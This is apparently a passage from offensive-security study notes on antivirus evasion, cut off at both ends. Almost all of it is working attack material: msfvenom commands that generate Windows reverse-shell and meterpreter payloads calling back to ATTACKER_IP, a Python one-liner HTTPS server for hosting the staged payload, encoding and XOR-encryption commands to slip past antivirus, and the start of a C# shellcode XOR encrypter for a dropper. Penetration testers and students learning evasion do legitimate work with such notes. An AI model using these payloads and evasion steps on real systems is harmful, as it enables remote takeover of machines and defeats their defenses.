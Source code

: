 ```csharp
    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}

# Compile the code
PS C:\> csc staged-payload.cs
# Generate shellcode
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
# Set up HTTPS server
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```
{% endcode %}

## Shellcode Encoding and Encryption

{% code overflow="wrap" fullWidth="true" %}
```csharp
# Encoding - This will be detected by current AVs
msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
# Encryption using msfvenom
msfvenom --list encrypt
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
# msfvenom encoding/encryption are easily detectable, better custom payload

# Creating a custom payload -> generate revshell with msfvenom
msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
# The encoder (replace buf variable with the shellcode generated from msfvenom)
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Droppr for Decrypting
            string key = "THMK3y123!";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0x48,0x83,..,0xda,0xff,0xd5 };

```